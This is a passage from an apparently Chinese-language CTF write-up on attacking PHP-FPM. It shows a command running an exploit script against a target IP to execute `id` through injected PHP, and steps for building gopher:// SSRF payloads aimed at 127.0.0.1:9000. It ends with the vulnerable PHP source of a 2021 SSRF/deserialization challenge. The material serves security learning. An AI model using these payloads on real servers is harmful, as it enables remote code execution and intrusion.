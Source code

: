 成功

![image-20211112175028236](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211112175028236.png)

需要注意的是，如果只是加载恶意.so而不执行代码，则并不需要有已存在php文件的绝对路径，用`_`占位即可

```bash
python fpm.py target_ip _ -c '<?php echo `id`;exit;?>'
```

![image-20211112175353957](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211112175353957.png)

### SSRF攻击本地php-fpm

利用`gopher://`协议可以直接传输TCP协议流，我们构造好payload之后就可以传入进行ssrf攻击了

构造payload依旧使用p牛的脚本，不过做一点微小的改动；这部分可以参见后面结合ftp攻击fpm的内容，总之就照这几步走

- p牛脚本生成urlencode之后的tcp数据流
- 加gopher://127.0.0.1:9000前缀
- 梭！?url=gopher://127.0.0.1:9000/_xxxxxxxxxxxxxxxx

#### [强网青少 2021]SSRF

```php
<?php
highlight_file(__FILE__);
//like fpm?
class Crawl{
    public $url;
    function __construct($url){
        if(substr($url,0,7)==="http://"){
            $this->url = $url;
        }else{
            $this->url = "http://127.0.0.1/";
        }
    }
    public function curl($url){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $result=curl_exec($ch);
        curl_close($ch);
        echo $result;
    }
    function __destruct(){
        $this->curl($this->url);
    }
}
if($_COOKIE["login"]=='1'){
    unserialize($_COOKIE["crawldata"]);
}else{
    if(isset($_GET["url"])){
        $crl = new Crawl($_GET["url"]);
    }else{
        echo "no";
    }
}
?>
```
